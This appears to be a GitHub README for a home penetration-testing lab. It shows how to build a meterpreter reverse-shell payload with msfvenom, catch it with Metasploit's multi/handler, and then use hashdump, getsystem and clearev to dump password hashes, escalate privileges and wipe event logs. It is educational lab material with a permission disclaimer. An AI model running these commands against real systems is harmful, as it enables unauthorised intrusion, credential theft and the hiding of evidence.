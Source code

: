 <h1>Metasploit Penetration Test Lab</h1>
<img src=""/>
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMWorksation Player and install it according to your actual physical machine (PICTURE Here)</p>
<img src=""/>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMWorkstation Player, and select “New”</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine. (PICTURE HERE) </p>
<img src=""/>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine. (PICTURE HERE)</p>
<img src=""/>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “exploitation frameworks”. Select Metasploit to launch the terminal. (PICTURE HERE)</p>
<img src=""/>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP of Kali Linux machine> LPORT=4444 -f exe > thisismalicious.exe” and hit enter.(PICTURE HERE)</p>
<img src=""/>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST <Kali Linux IP>”. Enter “show options" again to see the updated configuration. (PICTURE HERE) </p>
<img src=""/>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell!
(PICTURE HERE)</p>
<img src=""/>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester” (PICTURE HERE)</p>
<img src=""/>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>- Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test. (PICTURE)</p>
<img src=""/>
<p>- If we go back to our session, we can run a variety of commands to get a lot of information from the VM. “Hashdump” can collect all of the password hashes so that we can brute force them offline for example. (PICTURE)</p>
<img src=""/>
<p>- Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”. (PICTURE)</p>
<img src=""/>
<p>- Feel free to play around with the commands in meterpreter to see what it can accomplish. </p>
<p>- Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. (PICTURE) </p>
<img src=""/>
<p>- There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
